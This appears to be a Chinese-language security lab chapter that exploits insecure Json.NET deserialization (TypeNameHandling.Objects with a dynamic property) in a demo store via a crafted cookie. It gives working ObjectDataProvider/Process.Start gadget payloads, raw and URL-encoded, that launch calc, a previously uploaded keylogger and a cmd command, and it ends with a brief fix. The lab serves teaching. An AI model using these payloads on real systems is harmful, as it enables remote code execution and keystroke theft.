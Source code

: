 # 透過漏洞來執行遠端程式

## 目標

>反序列化的程式中，如果不注意的話，容易被攻擊者利用，反序列化出非預期的物件，而執行惡意的程式。例如使用 **dynamic or object** 型別的屬性並搭配 Json.NET 的**TypeNameHandling.Objects**
>
>本章練習透過修改 Cookie 的內容來透過反序列化物件時，來執行 Server 端的程式

## 練習步驟

1. 在檢查 Cookie 時，發現有一個 **shippingDetail** 的 Cookie ，它的內容是以 "$type":"MyStore.Domain.Entities." 開頭，是一個完整的 JSON 的物件，而這看起來似乎跟某個 Open Source 的專案類似的寫法(**假設**)。

    ![shippingDetail Cookie](images/s5-01.png)

2. 記得那個 Open Source 專案的程式碼會取 Cookie 的值，然後在 Server 端反序列化回來，而類別及反序列化的程式如下，

    ```csharp
    public class ShippingDetails
    {
        public string Name { get; set; }
        public string Tel { get; set; }
        public string CardNumber { get; set; }
        public string  Address { get; set; }
        public bool GiftWrap { get; set; }
        public dynamic Others { get; set; }
    }
    ```

    ```csharp
    var serialSetting = new JsonSerializerSettings();
    serialSetting.TypeNameHandling = TypeNameHandling.Objects;
    viewModel = JsonConvert.DeserializeObject<ShippingDetails>(HttpUtility.UrlDecode(shippingDetailJson), serialSetting);
    ```

    >有 dynamic + TypeNameHandling.Objects 所以可以好好利用一下

3. 因為 **Others** 是 dynamic ，所以可以放入 **System.Windows.Data.ObjectDataProvider** 物件，透過它在建立 Instance 時，來執行 **Process.Start**

    ```javascript
    {Others:{
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib",
            "$values": [
                "calc"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System"
        }
    }}
    ```

    URL Encode 後的值為 **%7bOthers%3a%7b%0d%0a%09%22%24type%22%3a+%22System.Windows.Data.ObjectDataProvider%2c+PresentationFramework%22%2c%0d%0a%09%22MethodName%22%3a+%22Start%22%2c%0d%0a%09%22MethodParameters%22%3a+%7b%0d%0a%09%09%22%24type%22%3a+%22System.Collections.ArrayList%2c+mscorlib%22%2c%0d%0a%09%09%22%24values%22%3a+%5b%0d%0a%09%09%09%22calc%22%0d%0a%09%09%5d%0d%0a%09%7d%2c%0d%0a%09%22ObjectInstance%22%3a+%7b%0d%0a%09%09%22%24type%22%3a+%22System.Diagnostics.Process%2c+System%22%0d%0a%09%7d%0d%0a%7d%7d%0d%0a**

4. 將上面 Encode 過的內容，貼到 **shippingDetail** Cookie 的值之中，並按下 Enter

    ![shippingDetail Cookie-Others](images/s5-02.png)

5. 到登入功能，畫面輸入

    | 欄位 | 值  |
    |---|---|
    | Email | rm@gss.com.tw |
    | Password | 0002 |
    | Remember me | 不勾選 |

6. 按下 「**Login**」 Button

7. 按下「**Checkout**」Button後，再按下「**Checkout now**」，就可以發現 Server 端的計算計被執行起來了

    ![Calc](images/s5-03.png)

8. 在前一章[透過漏洞來上傳後門程式](s4.md)有上傳 KeyLogger.exe ，所以原本呼叫 Calc 就可以改成呼叫 KeyLogger.exe 。

    ```javascript
    {Others:{
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib",
            "$values": [
                "C:\\Labs\\MyStore\\MyStore.WebUI\\Uploads\\KeyLogger.exe"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System"
        }
    }}
    ```

    >KeyLogger.exe 路徑請依上一章的實際路徑修改

    URL Encode 後的值為
    **%7BOthers%3A%7B%0A%09%22%24type%22%3A%20%22System.Windows.Data.ObjectDataProvider%2C%20PresentationFramework%22%2C%0A%09%22MethodName%22%3A%20%22Start%22%2C%0A%09%22MethodParameters%22%3A%20%7B%0A%09%09%22%24type%22%3A%20%22System.Collections.ArrayList%2C%20mscorlib%22%2C%0A%09%09%22%24values%22%3A%20%5B%0A%09%09%09%22C%3A%5C%5CLabs%5C%5CMyStore%5C%5CMyStore.WebUI%5C%5CUploads%5C%5CKeyLogger.exe%22%0A%09%09%5D%0A%09%7D%2C%0A%09%22ObjectInstance%22%3A%20%7B%0A%09%09%22%24type%22%3A%20%22System.Diagnostics.Process%2C%20System%22%0A%09%7D%0A%7D%7D**

9. 執行 Step 7 ，就可以發現 KeyLogger.exe 被呼叫起來

    ![Keylogger.exe](images/s5-04.png)

    >註: Windows 會覺得 Keylogger.exe 是惡意程式，會自動將它移除，如果被移除時，請重新建置一份，並手動 Copy 到 Upload 目錄來測試

10. KeyLogger.exe 會將使用者輸入的內容放到 KeyLogger.log 之中，可以透過上一章的 filesBrowser.aspx 來下載它，不一定可以取得系統管理者作業系統的帳號及密碼!

11. 也可以執行一些 Command ，如下，

    ```javascript
    {Others:{
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib",
            "$values": [
                "cmd", "/T:0A /K whoami &echo was HACKED"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System"
        }
    }}
    ```

>註: 針對反序列化時，TypeNameHandling 請設定成 **TypeNameHandling.None** (**todo: Session-8.3**)

[Back](./../../readme.md)

